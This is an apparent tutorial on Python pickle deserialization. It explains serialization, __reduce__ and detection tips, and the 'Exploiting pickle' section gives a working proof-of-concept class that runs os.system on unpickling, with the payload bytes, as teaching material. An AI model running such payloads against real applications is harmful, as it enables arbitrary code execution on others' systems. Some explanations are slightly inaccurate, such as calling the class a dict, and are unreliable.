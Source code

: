 # Python Pickle Deserialization Exploitation

## Serialization in python

In python, the default library used for serialization and deserialization is [pickle](https://docs.python.org/3.6/library/pickle.html).

```pickle.dumps(python_object): => plain string representation of the object```

Here's an example code snippet to demonstrate what serialization with pickle looks like:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)

print(type(pickled_data))
print(pickled_data)
```

Running the code we get a serialized string that represents the ```user``` object.

```console
<class 'bytes'>
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x03bob\x94\x8c\x04role\x94\x8c\x05admin\x94u.'
```

This has now converted an object of type *dict* to a stream of bytes.

## Deserialization in python

When the data needs to be used, ```pickle.loads()``` is used to unpack and get the underlying object.

```pickle.loads(serialized_bytes): => original python object```

Here's an example to demonstrate deserialization with pickle:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)
unpickled_data = pickle.loads(pickled_data)

print(type(unpickled_data))
print(unpickled_data.username)
print(unpickled_data.role)
```

This code snippet serializes the user object of type *dict* to bytes and then deserializes it back to the *dict* object. The output is as follows:

```console
<class 'type'>
bob
admin
```

## Manipulating the behaviour of pickling/unpickling

Pickle provides a way to execute arbitrary commands through the use of its ```__reduce__()``` method. To understand how this is possible, we must first take a look at the working of the ```__reduce__()``` method.

### __reduce__() explained

Pickle has certain restrictions as in not every object can be serialized. Objects such as file handles and others come with certain restrictions. The pickle docs give an overview of [what can be pickled and unpickled](https://docs.python.org/3/library/pickle.html#what-can-be-pickled-and-unpickled).

For the special cases where an object cannot be pickled, pickle allows you to define custom behaviours of the pickling process for your class instances. Let's take an example of what happens when a file descriptor is serialized:

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

file_tester = Demo('/home/bob/test.txt')
pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor
```

As expected we get the following error:

```console
Traceback (most recent call last):
  File "test.py", line 22, in <module>
    pickle.dumps(file_tester)                   # Attempt to serialize an object containing a file descriptor
TypeError: cannot pickle '_io.BufferedWriter' object
```

This is where the ```__reduce__()``` method comes into play. We can define how we want pickle to serialize this object.

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_file = file_path
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

    def __reduce__(self):
        return(self.__class__, (self.some_file, ))     # Pass a blank object class and a tuple to pass to the class constructor

file_tester = Demo('/home/bob/test.txt')
saved_object = pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor

print("Serialized: ")
print(saved_object)
print("Deserialized: ")
print(vars(pickle.loads(saved_object)))    # Print vars of the deserialized object including the file descriptor
```

The ```__reduce__()``` method according to the python [docs](https://docs.python.org/3/library/pickle.html#object.__reduce__) needs a tuple of atleast 2 things:

1. A blank object class to call. In this case, ```self.__class__```
2. A tuple of arguments to pass to the class constructor. In this case it is a single string ```self.some_file``` which is the path to the file to open.

This time around we see that the object has been serialized. We deserialize it soon after and the output is as follows:

```console
Serialized:
b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94\x8c\x07/home/bob/test.txt\x94\x85\x94R\x94.'
Deserialized:
{'some_file': '/home/bob/test.txt', 'some_random_file': <_io.BufferedWriter name='/home/bob/test.txt'>}
```

Therefore, by using ```__reduce__()``` in a class whose instances we need to pickle, we can give the pickling process a callable plus some arguments to run. The purpose of the method is for reconstructing objects however, we can utilize this for code execution.

## Exploiting pickle

Now we abuse the reduce method by inserting code in it as follows:

```python
import pickle
import os

class Evil(object):
    def __reduce__(self):
        cmd = 'echo PWNED!!!'
        return (os.system, (cmd, ))

pickle_data = pickle.dumps(Evil())
print(pickle_data)
```

The output will produce the serialized byte stream: ```b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'```.
We can pass this as input to a vulnerable application that attempts to directly deserialize this without any sanitization. This is demonstrated as follows:

```python
import pickle

evil_input = b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'
unpickled_data = pickle.loads(evil_input)
```

On deserialization, the reduce method is called and as a result, code is executed:

```console
$ python3 test.py
PWNED!!!
```

## Detecting python deserialization vulnerabilities

There are 2 main ways to detect if python serialization was done by pickle and/or is vulnerable to deserialization attacks:

1. **Blackbox**: If the traffic data contains the symbol dot . at the end, it's very likely that the data was sent in serialization. For example the byte string mentioned above
2. **Whitebox**: The uses of ```pickle/c_pickle/_pickle``` with ```load/loads``` in the code
